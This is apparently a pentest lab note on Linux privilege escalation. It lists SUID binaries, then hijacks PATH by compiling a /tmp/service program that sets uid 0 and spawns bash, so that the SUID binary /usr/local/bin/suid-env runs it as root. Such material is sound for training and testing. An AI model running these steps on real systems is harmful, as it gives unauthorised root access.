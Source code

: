 [[Linux Privilege Escalation]]
**Detection**

[[Linux]] Target
- In command prompt type: 
```
find / -type f -perm -04000 -ls 2>/dev/null
```

- From the output, make note of all the SUID binaries.

- In command prompt type: 
```
strings /usr/local/bin/suid-env
```

- From the output, notice the functions used by the binary.

**Exploitation**
Target machine:

-  In command prompt type:

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

-  In command prompt type: 
```
gcc /tmp/service.c -o /tmp/service
```

- In command prompt type: 
```
export PATH=/tmp:$PATH
```

- In command prompt type: 
```
/usr/local/bin/suid-env
```

- In command prompt type: 
```
id
```

